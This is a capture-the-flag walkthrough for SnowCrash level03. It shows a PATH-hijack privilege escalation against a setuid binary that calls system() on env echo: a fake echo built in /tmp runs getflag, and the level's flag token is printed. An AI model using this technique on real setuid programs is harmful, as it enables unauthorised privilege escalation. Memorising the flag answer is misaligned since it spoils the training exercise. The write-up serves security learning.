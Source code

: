 # Level03

## Walkthrough

We check the content of the home directory.

```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

The `s` on `level03` permissions indicates the **setuid bit**. This means that the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is **flag03**.

We transfer it to our local machine using **SCP**.

```bash
host:~$ scp -P 4242 level02@localhost:level03 level03
```

We decompile the binary using a decompiler explorer like **dogbolt**.

[Link to the decompiled output](https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a)

We analyze the main function and figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case **flag03**)
- executes a shell command (`echo`) with `system()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	__gid_t v4; // [esp+18h] [ebp-8h]
	__uid_t v5; // [esp+1Ch] [ebp-4h]

	v4 = getegid();
	v5 = geteuid();
	setresgid(v4, v4, v4);
	setresuid(v5, v5, v5);
	return system("/usr/bin/env echo Exploit me");
}
```

We can exploit this program by running the `getflag` command with the **flag03** privileges inside the `system()` call.  
Although we cannot modify the arguments passed to the system call directly, we can exploit the fact that `echo` is a built-in command and alter it’s behavior to execute the `getflag` command instead.

We then have to create our own version of `echo` in the `/tmp` directory and add it to the `$PATH` so that it will be invoked instead of the original one. After that, we just run the script and voila, it executes the `getflag` command as **flag03**.

```bash
level03@SnowCrash:~$ cd /tmp && mkdir echo
level03@SnowCrash:/tmp$ cd echo && touch echo.c
level03@SnowCrash:/tmp/echo$ vim echo.c
# paste the c program from below
level03@SnowCrash:/tmp/echo$ gcc echo.c -o echo
level03@SnowCrash:/tmp/echo$ ls -la
total 12
drwxrwxr-x 2 level03 level03   80 Feb  8 19:51 .
d-wx-wx-wx 6 root    root     120 Feb  8 19:50 ..
-rwxrwxr-x 1 level03 level03 7160 Feb  8 19:51 echo
-rw-rw-r-- 1 level03 level03   84 Feb  8 19:49 echo.c
level03@SnowCrash:/tmp/echo$ export PATH=/tmp/echo:$PATH
level03@SnowCrash:/tmp/echo$ ~/level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```c
// echo.c
#include <stdlib.h>

int main(void) {
	system("/usr/bin/env getflag");
	return 1;
}
```
## Resources

- [setuid bit](https://en.wikipedia.org/wiki/Setuid)
- [Exploit system() call in C](https://stackoverflow.com/questions/39939853/exploit-system-call-in-c)
- [How to exploit system() call in C](https://www.go4expert.com/articles/exploit-c-t24920)
